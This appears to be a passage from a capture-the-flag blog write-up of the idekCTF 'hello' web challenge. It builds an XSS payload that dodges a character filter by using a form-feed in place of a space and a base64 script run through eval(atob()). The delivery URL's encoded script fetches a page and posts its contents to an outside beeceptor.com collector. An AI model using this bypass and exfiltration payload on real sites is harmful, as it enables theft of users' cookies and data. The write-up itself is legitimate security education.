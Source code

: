 1. No `\n`
2. No `\r`
3. No `\t`
4. No `/`
4. No ` ` (space)

Well that seems hard eh? we can bypass the forward slash contraint using a simple

```html
<svg onload="eval(atob('<our-base-64-javascript-code>'))">
```

But how about the space?

Reverting back to Wikipedia, my source of information (kudos if you get the joke),
we see there exists a Form feed character `(ASCII 12) - (0xC in HEX)`, that is considered whitespace by the C character classification function isspace().

Cool, let's modify the payload to look like this:

```html
<svg%0Conload="eval(atob('<our-base-64-javascript-code>'))">
```

Lastly, to deliver the exploit, we just have to send the payload as a query parameter for `name`,
just like this:

```html
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9pZGVrLWhlbGxvLmNoYWwuaWRlay50ZWFtOjEzMzcvaW5mby5waHAvaW5k
ZXgucGhwJykudGhlbihyPT5yLnRleHQoKSkudGhlbihkPT5mZXRjaCgnaHR0cHM6Ly9xdDFlYTY4
M2EzNjhkYzY1ZDc2YTExM2Y3NGZiLmZyZWUuYmVlY2VwdG9yLmNvbS9zYXZlJywge21ldGhvZDon
UE9TVCcsaGVhZGVyczp7J0NvbnRlbnQtVHlwZSc6J2FwcGxpY2F0aW9uL2pzb24nfSxib2R5OkpT
T04uc3RyaW5naWZ5KHtjb250ZW50OmR9KX0pKQ=='))">
```

Click on submit...

![flag-cookie](/blog/images/2024-08-18-23-44-03.png)

There we go~

---

Flag is: `idek{Ghazy_N3gm_Elbalad}`

Things learned in this challenge:

1. Always use regular expressions to match pathnames.
2. Form feed character can be used as a whitespace inside html tags.
3. Some scripting skills

